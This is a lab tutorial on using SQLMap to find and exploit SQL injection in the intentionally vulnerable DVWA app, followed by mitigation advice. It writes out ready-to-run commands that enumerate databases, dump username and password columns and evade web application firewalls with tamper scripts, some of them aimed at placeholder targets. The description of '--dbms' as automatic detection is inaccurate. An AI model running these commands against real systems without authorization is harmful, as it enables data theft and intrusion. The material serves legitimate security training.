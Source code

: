 ```yaml
---
title: Automating SQL Injection Using SQLMap
date: 2024-05-12 08:01:35 +0300
subtitle: Product Design
image: '/images/406.png'
---
```

# Lab 6: Automating SQL Injection Using SQLMap

## **Objective**
Learn how to use **SQLMap**, an open-source penetration testing tool, to automate the process of detecting and exploiting SQL injection vulnerabilities in web applications. This lab will also cover techniques for mitigating these vulnerabilities.

---

## **Prerequisites**
1. **Kali Linux or Any Linux Distro with SQLMap Installed**:
   - Verify SQLMap is installed:
     ```bash
     sqlmap --version
     ```
   - Install it if necessary:
     ```bash
     sudo apt update && sudo apt install sqlmap
     ```

2. **Vulnerable Web Application**:
   - Use an intentionally vulnerable application like DVWA (Damn Vulnerable Web Application) or OWASP Juice Shop.
   - **Tip**: Ensure your DVWA security level is set to **low** for easier exploitation.

3. **Basic Understanding of SQL Injection**:
   - Familiarity with SQL commands and how applications use SQL queries to interact with databases.
   - **Insight**: SQL injection manipulates vulnerable queries to access unauthorized data or perform unauthorized actions.

---

## **Step 1: Setting Up the Environment**
1. Start your vulnerable web application.
   - For DVWA, ensure your web server and database server are running.
   - Access DVWA via `http://localhost/dvwa` in your browser.

2. Log in to DVWA (default credentials: `admin` / `password`).
3. Navigate to the **SQL Injection** module.

---

## **Step 2: Identifying the Vulnerable Parameter**
1. In the SQL Injection module of DVWA, enter a test value into the input field (e.g., `1`).
2. Observe the response:
   - If the page behaves differently when you add a single quote (e.g., `1'`), it may be vulnerable to SQL injection.
   - **Insight**: Error messages or unusual behavior are indicators of SQL vulnerabilities.

---

## **Step 3: Running SQLMap**
1. Capture the vulnerable request:
   - Use a browser extension like Burp Suite or OWASP ZAP to intercept and save the HTTP request.
   - Alternatively, note the URL and query string (e.g., `http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`).

2. Run SQLMap against the target:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"
   ```
   - **`-u`**: Specifies the target URL.

3. Observe SQLMap’s output:
   - SQLMap will test for SQL injection vulnerabilities and display its findings.
   - **Tip**: Use the `--batch` option to skip confirmation prompts in automated scripts.

---

## **Step 4: Extracting Database Information**
1. Enumerate the database:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --dbs
   ```
   - **`--dbs`**: Lists available databases.

2. Choose a database and enumerate its tables:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> --tables
   ```
   - Replace `<database_name>` with the target database (e.g., `dvwa`).

3. Choose a table and enumerate its columns:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> -T <table_name> --columns
   ```
   - Replace `<table_name>` with the desired table (e.g., `users`).

4. Extract data from a table:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> -T <table_name> -C <column_name> --dump
   ```
   - Replace `<column_name>` with the column to extract (e.g., `username,password`).

---

## **Step 5: Advanced SQLMap Options**
1. **Bypassing WAFs (Web Application Firewalls):**
   - Use tamper scripts to evade basic security mechanisms:
     ```bash
     sqlmap -u "http://target.com/vulnerable" --tamper="space2comment"
     ```

2. **Testing All Parameters:**
   - If the application uses multiple parameters, test them all:
     ```bash
     sqlmap -u "http://target.com/page?id=1&name=test" --level=3 --risk=2
     ```
   - **Tip**: Higher `--level` and `--risk` values increase testing intensity.

3. **Identifying Database Type:**
   - Automatically detect the database type:
     ```bash
     sqlmap -u "http://target.com/vulnerable" --dbms=mysql
     ```

4. **Extracting Password Hashes:**
   - Dump and crack password hashes:
     ```bash
     sqlmap -u "http://target.com/vulnerable" -D <database_name> -T <table_name> -C password --dump
     ```

---

## **Step 6: Mitigation Techniques**
1. **Use Parameterized Queries:**
   - Ensure user input is safely handled by the database using prepared statements.

2. **Validate and Sanitize Inputs:**
   - Reject unexpected characters or patterns in user inputs.

3. **Implement Web Application Firewalls (WAFs):**
   - Use a WAF to filter out malicious requests.

4. **Limit Database Privileges:**
   - Restrict user roles to minimize the impact of successful attacks.

5. **Perform Regular Security Audits:**
   - Regularly scan and test applications for vulnerabilities.

---

## **Step 7: Cleaning Up**
1. Remove any test payloads or reset the vulnerable application to its default state.
2. Document your findings and share them responsibly.

---

## **Additional Tips and Insights**
1. **Ethical Considerations:**
   - Only perform SQLMap tests on systems where you have explicit permission to do so.

2. **Automation Benefits:**
   - SQLMap automates much of the manual work involved in exploiting SQL injection vulnerabilities, saving time and reducing human error.

3. **Use in CTFs (Capture The Flag):**
   - SQLMap is a powerful tool for solving CTF challenges that involve web exploitation.

4. **Continuous Practice:**
   - Experiment with different flags, tamper scripts, and configurations to deepen your understanding.

---

## **Key Takeaways**
1. SQLMap is a robust tool for detecting and exploiting SQL injection vulnerabilities.
2. Understanding its features and outputs allows for efficient testing and data extraction.
3. Secure coding practices and regular vulnerability assessments are essential for preventing SQL injection attacks.
